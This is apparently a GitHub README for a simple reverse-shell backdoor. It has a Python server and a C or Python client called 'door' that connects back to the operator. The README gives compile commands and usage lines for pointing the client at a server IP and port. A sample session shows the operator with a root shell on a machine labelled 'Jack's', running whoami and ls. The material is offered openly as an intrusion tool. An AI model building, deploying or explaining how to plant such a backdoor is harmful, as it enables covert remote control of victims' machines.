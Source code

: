 > A simple Backdoor CONSOLE, Support both Python 2 & 3.

> There is also a C version client side program Support Linux & Windows.

### Compile C version `door.c`
```
# Windows CL
$> cl door.c /O1 /D WIN32 /Fe door /link /subsystem:console
# Windows or Linux gcc
$> gcc -Wall -O1 door.c -o door
```

### Command Line Argument
```
$> ./server.py bind_address:bind_port
$> ./door.py server_ip:server_port[:retry_interval]

# Server Example
$> ./server.py 127.0.0.1:4433

# Client Example
$> ./door.py 127.0.0.1:4433 # default retry interval 16
$> ./door.py 127.0.0.1:4433:60
```

### Your side
```
root@server 07:47 /home # ./server 0.0.0.0:2345
listen on 0.0.0.0:2345, waiting for connection.
connection from *.*.*.*:49006
$> whoami
root

$> ls -la
total 16
drwxr-xr-x  3 root root 4096 Feb 11 07:31 .
drwxr-xr-x 22 root root 4096 Jan 30 09:55 ..
-rwxr-xr-x  1 root root  532 Feb 11 07:31 door
drwxr-xr-x  5 git  git  4096 Jan  3 08:41 jack

$>
```

### Jack's
```
root@boy 07:47 /home # ./door *.*.*.*:2345
```
End.

